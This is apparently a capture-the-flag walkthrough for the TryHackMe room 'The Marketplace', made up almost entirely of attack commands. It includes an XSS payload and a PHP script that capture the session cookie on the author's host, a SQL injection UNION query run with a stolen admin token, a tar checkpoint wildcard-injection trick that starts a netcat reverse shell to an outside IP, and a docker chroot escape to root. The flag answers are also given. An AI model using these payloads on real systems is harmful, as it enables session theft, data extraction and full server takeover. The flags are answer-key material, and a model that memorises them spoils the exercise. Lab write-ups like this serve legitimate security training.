 
# <div align="center">[The Marketplace](https://tryhackme.com/r/room/marketplace)</div>
<div align="center">Can you take over The Marketplace's infrastructure?</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/e5dd3e52-6ba0-4cee-a3fc-5a3c86816ac8" height="200"></img>
</div>

## Task 1. The Marketplace

The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?

### What is flag 1?
```
nmap -sSCV -p- <IP>
<script>document.location='http://<my_own_IP>:8000/grabber.php?c='+document.cookie</script>

cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF

nc -nlvp 8000
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig HTTP/1.1
GET /admin HTTP/1.1
```
```
THM{c37a63895910e478f28669b048c348d5}
```
### What is flag 2? (User.txt)
```
curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://<IP>/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages"` | tail cat user.txt
```
```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```
### What is flag 3? (Root.txt)
```
id michael
find / -type f -user michael -exec ls -l {} + 2>/dev/null
cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

sudo -l
cat > /opt/backups/shell.sh << EOF
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.50.72 4444 >/tmp/f
EOF

chmod +x /opt/backups/shell.sh
touch "/opt/backups/--checkpoint=1"
touch "/opt/backups/--checkpoint-action=exec=sh shell.sh"
cd /opt/backups/
sudo -u michael /opt/backups/backup.sh

nc -nlvp 4444
id
docker image ls
python3 -c "import pty;pty.spawn('/bin/bash')"
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cat /root/root.txt
```
```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```
